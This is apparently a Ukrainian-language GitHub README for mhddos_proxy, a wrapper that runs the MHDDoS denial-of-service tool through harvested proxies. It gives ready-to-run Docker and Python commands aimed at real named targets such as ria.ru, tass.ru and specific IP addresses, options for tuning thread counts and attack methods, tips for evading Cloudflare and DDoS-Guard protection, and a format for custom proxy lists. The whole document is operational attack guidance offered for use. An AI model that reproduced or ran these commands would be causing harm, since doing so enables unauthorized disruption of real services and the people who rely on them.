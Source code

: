 Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### ⏱ Останні оновлення

- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)
- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі

<details>
  <summary>📜 Раніше</summary>

- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS. [Див. примітки нижче](#-попередження-щодо-деяких-методів-атаки)
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🐳 Комьюніті
- [Детальний розбір MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)
- [Utility for converting shared targets into config format](https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)

### 🚨 Попередження щодо деяких методів атаки
Метод **CFB** - може обійти лише незначну частину захисту деяких сайтів, повна реалізація потребує вирішення CAPTCHA,
а також доступу до платної версії бібліотеки яку не можливо буде включити до складу mhddos_proxy (через відкритий код).  
Метод **DGB** - успішні запити залежать не від самої реалізації (вона не працює), а від "чистоти" IP-адреси.  
Наразі не існує надійної open-source реалізації обходу Cloudflare та DDoS-Guard.  
Еффективнішим буде пошук оригінальних серверів цілі або атака методами за замовчуванням.

Метод **BOMB** потребує значно більше RAM - зменшіть значення `-t`.  
Також потребує додаткових налаштувань при запуску через python - звертайтеся
до [документації MHDDoS](https://github.com/MHProDev/MHDDoS).

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Disable proxies to use VPN
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path to file with proxies to use
      --udp-threads 1        Total number of threads to run for UDP sockets (defaults to 1)
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

### Власні проксі

#### Формат файлу:

    114.231.123.38:1234
    114.231.123.38:3065:username:password
    username:password@114.231.123.38:3065
    socks5://114.231.155.38:5678
    socks5://114.231.155.38:5678:username:password
    socks4://username:password@114.231.123.38:3065

#### Віддалений файл (однаково для Python та Docker)

    python3 runner.py --proxies https://pastebin.com/raw/UkFWzLOt https://ria.ru

#### Для Python

Покладіть файл поруч з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

#### Для Docker
Потрібно монтувати volume щоби Docker мав доступ до файлу.  
Обов'язково вказувати абсолютний шлях до файлу і не загубити `/` перед іменем файлу

    docker run -it --rm --pull always -v /home/user/ddos/mhddos_proxy/proxies.txt:/proxies.txt ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --proxies /proxies.txt https://ria.ru
